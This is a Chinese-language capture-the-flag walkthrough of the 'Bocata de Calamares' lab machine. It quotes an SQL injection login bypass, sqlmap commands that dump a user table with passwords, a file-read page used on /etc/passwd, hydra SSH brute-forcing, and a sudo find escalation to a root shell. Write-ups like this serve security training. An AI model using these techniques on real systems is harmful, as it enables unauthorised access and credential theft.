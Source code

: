 # Bocata de Calamares

2025.02.25 https://thehackerslabs.com/bocata-de-calamares/

[video]()

## Ip

192.168.5.40

## Scan

```
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

访问 web 首页，底部发现邮箱 indurandor@fkn.com 。发现 http://192.168.5.40/sqli.php 的一个页面，讲的是 sql 注入，可能暗示这个靶机存在 sql 注入。

目录扫描发现 /login.php 和 /admin.php 页面，首先看登陆页面，尝试 sql 注入，就按照 http://192.168.5.40/sqli.php 底部提示的注入方式进行输入，登陆成功：

```
Usuario: admin
Contraseña: ' OR '1'='1
```

使用 sqlmap 跑 form 中的密码字段，得出数据库信息：

```
sqlmap -u http://192.168.5.40/login.php --data='alias=admin&password=1*' --batch --dbs

[*] information_schema
[*] performance_schema
[*] php

sqlmap -u http://192.168.5.40/login.php --data='alias=admin&password=1*' --batch -D php --tables

sqlmap -u http://192.168.5.40/login.php --data='alias=admin&password=1*' --batch -D php -T usuarios --dump

+----+------------+---------------------+---------+--------------+
| id | alias      | email               | nombre  | contraseña   |
+----+------------+---------------------+---------+--------------+
| 1  | adminPrinc | admin@localhost.com | admin   | 123456       |
| 2  | Pep100     | pepe@email.com      | pepe    | qwertyuiop   |
| 3  | Jaime_P    | jaime@email.com     | jaime   | jaime        |
| 4  | Richard    | Ricardobc@gmail.com | Ricardo | qwertyu      |
+----+------------+---------------------+---------+--------------+
```

使用得到的用户名和密码爆破 ssh，但是都不对。

在看管理员页面中有一个代办事项页面 http://192.168.5.40/todo-list.php 里面有一项：

```
我创建了一个新页面，以便能够读取内部服务器文件，每天我都是更好的程序员。我也已经编码了基于名称的64，因此没人能找到它（Lee_archivos）。
```

对后面的单词进行 base64，要带换行符，否则 base64 后是 bGVlX2FyY2hpdm9z 页面爆 404：

```
echo lee_archivos|base64
bGVlX2FyY2hpdm9zCg==
```

访问文件：http://192.168.5.40/bGVlX2FyY2hpdm9zCg==.php 弹出读取文件的页面，读取 /etc/passwd 发现：

```
root:x:0:0:root:/root:/bin/bash
tyuiop:x:1000:1000:tyuiop:/home/tyuiop:/bin/bash
superadministrator:x:1001:1001:,,,:/home/superadministrator:/bin/bash
```

同时在源代码处得到提示：

```
<!-- Tengo que limitar los archivos que se pueden ver, al menos hasta que los usuarios tengan unas contraseñas más robustas -->
<!-- Si alguien leyera el archivo donde se encuentran los usuarios y usara la herramienta hydra para atacar nuestro servicio ssh... Bueno, mañana me encargare de ello -->
```

提示 hydra 进行 ssh 爆破，使用 rockyou 对这 2 个用户名进行爆破，得到了 superadministrator 的登陆密码 princesa 进行登陆。

先拿到 flag:

```
superadministrator@thehackerslabs-bocatacalamares:~$ cat flag.txt
c3VkbyAtbAo=
```

解码后是 sudo -l , 执行后发现 (ALL) NOPASSWD: /usr/bin/find 可以直接拿到 root 权限：

```
sudo find . -exec /bin/sh \; -quit

# id
uid=0(root) gid=0(root) groups=0(root)
# cd /root
# ls
root.txt
# cat root.txt
S0Y_UN_h4K3R
```
